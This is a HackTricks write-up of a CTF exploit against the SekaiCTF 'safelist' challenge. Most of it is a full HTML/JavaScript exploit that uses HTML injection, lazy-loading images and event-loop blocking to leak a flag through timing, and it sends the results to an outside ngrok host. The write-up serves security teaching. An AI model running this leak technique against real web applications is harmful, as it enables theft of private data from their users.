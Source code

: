 # Event Loop Blocking + Lazy images

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

In [**this exploit**](https://gist.github.com/aszx87410/155f8110e667bae3d10a36862870ba45), [**@aszx87410**](https://twitter.com/aszx87410) mixes the **lazy image side channel** technique through a HTML injection with kind of **event loop blocking technique** to leak chars.

This is a **different exploit for the CTF chall** that was already commented in the following page. take a look for more info about the challenge:

{% content-ref url="connection-pool-example.md" %}
[connection-pool-example.md](connection-pool-example.md)
{% endcontent-ref %}

The idea behind this exploit is:

* The posts are loaded alphabetically
* An **attacker** can **inject** a **post** starting with **"A"**, then some **HTML tag** (like a big **`<canvas`**) will fulfil most of the **screen** and some final **`<img lazy` tags** to load things.
* If instead of an "A" the **attacker injects the same post but starting with a "z".** The **post** with the **flag** will appear **first**, then the **injected** **post** will appear with the initial "z" and the **big** **canvas**. Because the post with the flag appeared first, the first canvas will occupy all the screen and the final **`<img lazy`** tags injected **won't be seen** in the screen, so they **won't be loaded**.
* Then, **while** the bot is **accessing** the page, the **attacker** will **send fetch requests**.&#x20;
  * If the **images** injected in the post are being **loaded**, these **fetch** requests will take **longer**, so the attacker knows that the **post is before the flag** (alphabetically).
  * If the the **fetch** requests are **fast**, it means that the **post** is **alphabetically** **after** the flag.

Let's check the code:

```html
<!DOCTYPE html>
<html>
<!--
  The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs event loop.
  If images are loading, the request to "/" is slower, otherwise faster.
  By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
  We can use fetch to measure the request time.
-->
<body>
  <button onclick="run()">start</button>
  
  <!-- Inject post with payload -->
  <form id=f action="http://localhost:1234/create" method="POST" target="_blank">
    <input id=inp name="text" value="">
  </form>
  
  <!-- Remove index -->
  <form id=f2 action="http://localhost:1234/remove" method="POST" target="_blank">
    <input id=inp2 name="index" value="">
  </form>
  
  <script>
    let flag = 'SEKAI{'
    const TARGET = 'https://safelist.ctf.sekai.team'
    f.action = TARGET + '/create'
    f2.action = TARGET + '/remove'

    const sleep = ms => new Promise(r => setTimeout(r, ms))
    // Function to leak info to attacker
    const send = data => fetch('http://server.ngrok.io?d='+data)
    const charset = 'abcdefghijklmnopqrstuvwxyz'.split('')

    // start exploit
    let count = 0
    setTimeout(async () => {
      let L = 0
      let R = charset.length - 1
      
      // I have omited code here as apparently it wasn't necesary

      // fallback to linerar since I am not familiar with binary search lol
      for(let i=R; i>=L; i--) {
        let c = charset[i]
        send('try_' + flag + c)
        const found = await testChar(flag + c)
        if (found) {
          send('found: '+ flag+c)
          flag += c
          break
        }
      }
      
    }, 0)

    async function testChar(str) {
      return new Promise(resolve => {
          /*
            For 3350, you need to test it on your local to get this number.
            The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
            If starts with "A", the image should be loaded because it's in the threshold.
          */
          // <canvas height="3350px"> is experimental and allow to show the injected
          // images when the post injected is the first one but to hide them when
          // the injected post is after the post with the flag
          inp.value = str + '<br><canvas height="3350px"></canvas><br>'+Array.from({length:20}).map((_,i)=>`<img loading=lazy src=/?${i}>`).join('')
          f.submit()

          setTimeout(() => {
            run(str, resolve)
          }, 500)
      })
    }

    async function run(str, resolve) {
      // Open posts page 5 times
      for(let i=1; i<=5;i++) {
        window.open(TARGET)
      }
      
      let t = 0
      const round = 30 //Lets time 30 requests
      setTimeout(async () => {
        // Send 30 requests and time each
        for(let i=0; i<round; i++) {
          let s = performance.now()
          await fetch(TARGET + '/?test', {
            mode: 'no-cors'
          }).catch(err=>1)
          let end = performance.now()
          t += end - s
          console.log(end - s)
        }
        const avg = t/round
        // Send info about how much time it took
        send(str + "," + t + "," + "avg:" + avg)

        /*
          I get this threshold(1000ms) by trying multiple times on remote admin bot
          for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
        */
        const isFound = (t >= 1000)
        if (isFound) {
          inp2.value = "0"
        } else {
          inp2.value = "1"
        }

        // remember to delete the post to not break our leak oracle
        f2.submit()
        setTimeout(() => {
          resolve(isFound)
        }, 200)
      }, 200)
    }
    
  </script>
</body>
</html>
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

